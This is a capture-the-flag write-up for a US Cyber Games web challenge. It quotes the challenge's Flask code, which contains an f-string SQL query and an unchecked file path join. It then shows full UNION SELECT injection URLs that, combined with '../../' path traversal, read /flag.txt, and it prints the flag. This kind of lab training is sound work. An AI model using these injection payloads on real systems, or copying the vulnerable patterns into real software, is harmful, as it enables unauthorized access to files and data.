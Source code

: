 # Web: Secure File Storage (467)

The new USCG file storage server has a lot of cool security features to keep you and your sensitive files safe! It seems pretty impossible to exploit...or is it?

[http://storage.challs.uscybergames.com](http://storage.challs.uscybergames.com)

Author: [tsuto](https://github.com/jselliott)

**Files:** [challenge.zip](Files/challenge.zip)

## Writeup

Luckily, we are given the source code for this web challenge!

First, we can see a flag.txt file (not the real flag) in the root directory. And in our Dockerfile, we can see that the flag is in the root directory.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

And we can also see in config.py that the default upload folder is `/app/uploads`.

```py
    UPLOAD_FOLDER = "/app/uploads"
```

In database.py, we also see an interesting function...

```py
def fetch_file_db(user_id,file_id):
    try:
        file = db.session.execute(text(f"SELECT * FROM File WHERE id = {file_id}")).first()
        if file:
            filepath = decrypt(file.filepath)
            filename = decrypt(file.filename)
            if file.user_id == user_id and filepath is not None and filename is not None:
                return {"id":file.id,"filepath":filepath.decode(),"filename":filename.decode(),"title":file.title, "encrypted":file.encrypted}
        return False
    except Exception as e:
        logging.error(e)
        return False
```

Using `db.session.execute` makes this very likely to be vulnerable to SQL injection!

Also, we can find the schema for the file table.

```py
class File(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, nullable=False)
    title = db.Column(db.String(256), nullable=False)
    filename = db.Column(db.String(256), nullable=False)
    filepath = db.Column(db.String(256), nullable=False)
    encrypted = db.Column(db.Integer, nullable=False)
```

This tells us that there is an id, user_id that created the file, title of the file, a filename, a file path, and an integer telling if it was encrypted or not.

In api.py, we can see where this is referenced:

```py
@api.route('/files/download/<file_id>', methods=['GET'])
@isAuthenticated
def download_file(file_id,user):

    if not file_id:
        flash('No file ID provided.',"danger")
        return redirect("/files")
    
    file = fetch_file_db(user["id"],file_id)

    if not file:
        flash('Invalid file provided, or you may not have permission to view this file.',"danger")
        return redirect("/files")
    
    if file["encrypted"]:
        content = open(os.path.join(file["filepath"],file["filename"]),"rb").read()
        F = BytesIO(decrypt(content))
    else:
        F = open(os.path.join(file["filepath"],file["filename"]),"rb")

    return send_file(F, as_attachment=True, download_name=file["filename"])
```

So, it is very likely that there is SQL injection possible in the file downloading endpoint. Also, since this just opens the path from combining the filepath and filename, we might even have directory traversal!

So, we will want to use a filepath of `../../` to traverse back to the root directory and a filename of `flag.txt` to get `/flag.txt`. However, there is a problem...

This is the file upload code:
```py
@api.route('/files/upload', methods=['POST'])
@isAuthenticated
def upload_file(user):

    file = request.files.get("file")
    title = request.form.get("title")

    if not file or file.filename == "":
        flash('You must select a file to upload.',"danger")
        return redirect("/files")
    
    if not title or title == "":
        flash('You must enter a title for your file.',"danger")
        return redirect("/files")
    
    if not allowed_file(file.filename):
        flash(f'The following filetypes are allowed: [{",".join(app.config["ALLOWED_EXTENSIONS"])}]',"danger")
        return redirect("/files")
    
    filename = secure_filename(file.filename)
    filepath = os.path.join(app.config['UPLOAD_FOLDER'],user["username"])
    file.save(os.path.join(filepath,filename))

    #Read and encrypt file contents
    F = open(os.path.join(filepath,filename),"rb")
    content = encrypt(F.read())
    F.close()

    # Write encrypted contents
    F = open(os.path.join(filepath,filename),"wb")
    F.write(content)
    F.close()

    insert_file_db(user["id"],filepath,filename,title)

    flash('File uploaded successfully!',"success")
    return redirect("/files")
```

Notably, the file name is first secured and then encrypted. This is also why the `fetch_file_db` function decrypts the file path and name. But also the file contents are encrypted by default. And since we can control whether or not the file is encrypted through the SQL injection, we can use this to find the encrypted version of our path to then inject.

First, we'll need to make a file, `flag.txt` to upload, containing the contents `../../`.  With this, we can use the file name of this file and use the encrypted contents as the path.

Then, we upload this file.

![Image 1](Screenshots/1.png)

Now, we can see our file here.

![Image 2](Screenshots/2.png)

Hovering over the download icon, we can copy the link and find that the link to the file is `http://storage.challs.uscybergames.com/api/files/download/46989`.

This last number is the ID of the file.

Now, if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20filepath,%200%20from%20File%20where%20id%20=%2046989`, we can get the encrypted filepath.

And our path is `iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=`. 

And if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20'iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=',%200%20from%20File%20where%20id%20=%2046989`, we can get the flag!

When we do this, we get a downloaded file, containing the flag, `SIVUSCG{b1t_fl1pp3d_f1l3s}`!
